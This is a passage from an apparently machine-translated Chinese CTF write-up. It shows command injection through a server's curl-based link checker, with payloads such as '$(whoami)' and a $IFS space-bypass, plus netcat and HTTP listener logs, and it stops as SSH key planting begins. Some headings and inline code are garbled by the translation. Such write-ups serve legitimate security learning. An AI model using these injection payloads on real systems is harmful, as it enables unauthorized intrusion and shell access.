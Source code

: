 输入作为文本处理，而不是作为 HTML 处理。奇怪的是，我仍然在我的Web服务器上受到一次点击：

    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.209 - - [01/Nov/2020 10:02:59] code 404, message File not found
    10.10.10.209 - - [01/Nov/2020 10:02:59] "GET /content HTTP/1.1" 404 -
    

点击提交即可立即点击。我不清楚这是模拟的用户交互，还是主机上的某种验证脚本，但值得一试。

#### 识别客户端

我杀死了Python网络服务器，并开始对整个请求有更好的感觉。我重新提交了一篇带有 正文的帖子，请求再次立即出现：`nc``http://10.10.14.6/test`

    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.209.
    Ncat: Connection from 10.10.10.209:34852.
    GET /test HTTP/1.1
    Host: 10.10.14.6
    User-Agent: curl/7.68.0
    Accept: */*
    

请求挂起了一秒钟，然后返回，就像它返回一样，网页弹出了一条错误消息：

 ![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2F0xdf.gitlab.io%2Fimg%2Fimage-20201101100729739.png) 

这看起来更像是服务器上的某种链接验证检查器，并且它正在运行curl来执行此操作（而不是python内部的本机内容）。`requests`

#### 命令注入

现在，在侦听80和侦听ICMP的情况下，我制作了我的下一个有效载荷，它返回了用户名web：`nc``tcpdump``http://10.10.14.6/$(whoami)`

    10.10.10.209 - - [01/Nov/2020 10:12:53] "GET /web HTTP/1.1" 404 -
    

如果我将命令更改为 ，我会得到第一个空格“uid=1001（web）”：`id`

    10.10.10.209 - - [01/Nov/2020 10:13:33] "GET /uid=1001(web) HTTP/1.1" 404 -
    

尝试执行更复杂的命令失败了，因为很明显添加空格会破坏事物。我尝试使用来表示空间（一种常见的注入技术），最终发现，再加上参数的组合可以使其与以下内容一起使用：`$IFS``'`

    http://10.10.14.6/$(ping$IFS-c$IFS'1'$IFS'10.10.14.6')
    

我得到一个ping：

    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    10:16:12.333148 IP 10.10.10.209 > 10.10.14.6: ICMP echo request, id 3, seq 1, length 64
    10:16:12.333176 IP 10.10.14.6 > 10.10.10.209: ICMP echo reply, id 3, seq 1, length 64
    

#### 壳牌通过固态混合苯

再次使用单引号需要一些尝试，但是我得到了注入，为当前用户Web编写了一个SSH密钥（我从注入中知道）。我使用的是 ed25519 密钥（因为它们真的很短）。事实证明，中没有目录，所以我需要创建一个：`whoami``.ssh``/home/web`
